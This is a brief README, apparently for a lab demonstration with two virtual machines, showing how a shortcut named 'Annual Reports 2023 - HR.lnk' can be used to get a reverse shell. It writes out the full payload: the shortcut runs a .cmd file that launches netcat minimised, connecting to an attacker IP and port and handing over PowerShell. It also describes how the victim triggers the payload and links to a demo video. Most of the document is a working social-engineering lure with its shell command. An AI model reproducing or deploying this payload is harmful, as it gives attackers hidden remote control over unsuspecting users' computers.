 Demo was made using 2 virtual machines:   
- Kali Linux
- Windows 10

Structure:   
Annual Reports 2023 - HR.lnk -> Linked to ransu.cmd   
ransu.cmd:   
```bash
start /min nc64.exe <attacker ip> <attacker port> -e powershell
```

Both were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command.   

When the "folder"(shortcut) was opened, the payload was ran using netcat and the attacker, where the listener was, got the connection.   

[Revshell Demo](https://youtu.be/8v6djrHg2qI)
